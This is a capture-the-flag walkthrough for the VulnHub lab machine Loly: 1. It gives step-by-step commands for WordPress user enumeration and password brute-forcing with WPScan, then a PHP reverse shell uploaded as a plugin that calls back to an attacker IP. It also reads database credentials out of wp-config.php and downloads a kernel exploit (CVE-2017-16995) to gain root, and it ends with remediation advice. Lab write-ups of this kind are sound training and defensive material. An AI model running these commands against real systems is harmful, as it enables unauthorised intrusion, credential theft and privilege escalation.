




# Loly: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.0.180 |
| **Attacker IP** | 192.168.0.147 |
| **Hostname** | loly.lc |
| **Difficulty** | Easy |
| **OS** | Linux (Ubuntu, kernel 4.4.0) |
| **Goal** | root flag (`root.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/loly-1-vulnhub-walkthrough/) |

## Attack Summary

Loly: 1 exposes a single HTTP port running nginx with a WordPress installation. WPScan enumerates the user `loly` and brute-forces the password. A PHP reverse shell is uploaded as a malicious WordPress plugin. The `wp-config.php` file exposes a database password reused for the local Linux user `loly`. Privilege escalation exploits a vulnerable Ubuntu 4.4.0 kernel (CVE-2017-16995, EDB 45010) to achieve root.

## Methodology

1. Host discovery with netdiscover
2. Port scan with nmap
3. Directory brute-force with dirb to find WordPress
4. WordPress enumeration and password brute-force with WPScan
5. Reverse shell via malicious WordPress plugin upload
6. Credential reuse from `wp-config.php` to SSH
7. Kernel exploit for root

---

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.0.1/24
```

---

## Step 2: Port Enumeration

```bash
nmap -A 192.168.0.180
```

**Open ports:**

| Port | Service |
|---|---|
| 80 | HTTP (nginx) |



---

## Step 3: Directory Enumeration

```bash
dirb http://192.168.0.180
```

Output reveals a WordPress installation at `/wordpress/` with a `wp-admin` path.

Add the hostname to `/etc/hosts` so the WordPress site renders correctly:

```bash
echo "192.168.0.180  loly.lc" >> /etc/hosts
```

---

## Step 4: WordPress Enumeration and Brute Force

```bash
# Enumerate users
wpscan --url http://loly.lc/wordpress --enumerate u
```

User discovered: `loly`

```bash
# Brute-force password
wpscan --url http://loly.lc/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
```

Credentials found: `loly:fernando`



---

## Step 5: Reverse Shell via WordPress Plugin Upload

Log into WordPress at `http://loly.lc/wordpress/wp-admin` with `loly:fernando`.

Create a PHP reverse shell file (edit `/usr/share/webshells/php/php-reverse-shell.php`):

```php
$ip = '192.168.0.147';   // Attacker IP
$port = 1234;
```

Package the shell as a zip archive:

```bash
zip shell.zip php-reverse-shell.php
```

In WordPress: **Plugins > Add New > Upload Plugin** — upload `shell.zip` and activate.

Start a listener:

```bash
nc -lvp 1234
```

Trigger the shell by navigating to:
```
http://loly.lc/wordpress/wp-content/plugins/php-reverse-shell.php
```

A shell is received as `www-data`.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```



---

## Step 6: Credential Reuse from wp-config.php

```bash
cat /var/www/html/wordpress/wp-config.php | grep -E "DB_USER|DB_PASSWORD"
```

Output:

```
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'lolyisabeautifulgirl');
```

The database password is also the Linux user `loly`'s password:

```bash
su loly
# Password: lolyisabeautifulgirl
```

---

## Step 7: Privilege Escalation — Kernel Exploit (CVE-2017-16995)

```bash
lsb_release -a
uname -a
# Linux loly 4.4.0-31-generic
```

The kernel is vulnerable. Search for an exploit:

```bash
searchsploit ubuntu 4.4.0 privilege escalation
# Returns EDB 45010 (CVE-2017-16995)
```

On attacker machine, host the exploit:

```bash
python -m SimpleHTTPServer 8000
```

On the target (as `loly`):

```bash
cd /tmp
wget http://192.168.0.147:8000/45010.c
gcc 45010.c -o shell
chmod 777 shell
./shell
```

```bash
id
# uid=0(root)

cat /root/root.txt
```



---

## Lessons Learned

- WordPress installations with weak credentials and unrestricted plugin upload capability are trivially compromised via malicious plugins.
- Database passwords stored in `wp-config.php` are often reused for OS-level accounts.
- Outdated kernels on Ubuntu LTS variants should be patched promptly — kernel exploits are widely available and reliable.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Weak WordPress password | Enforce strong password policies; use two-factor authentication |
| Unrestricted plugin upload | Restrict plugin installation to trusted sources; disable file editor |
| Credential reuse (DB password = OS password) | Use unique passwords for each service; store secrets in a vault |
| Outdated kernel (4.4.0) | Apply all available kernel security updates |
| WordPress exposed on default nginx config | Restrict `wp-admin` by IP; enable Web Application Firewall |
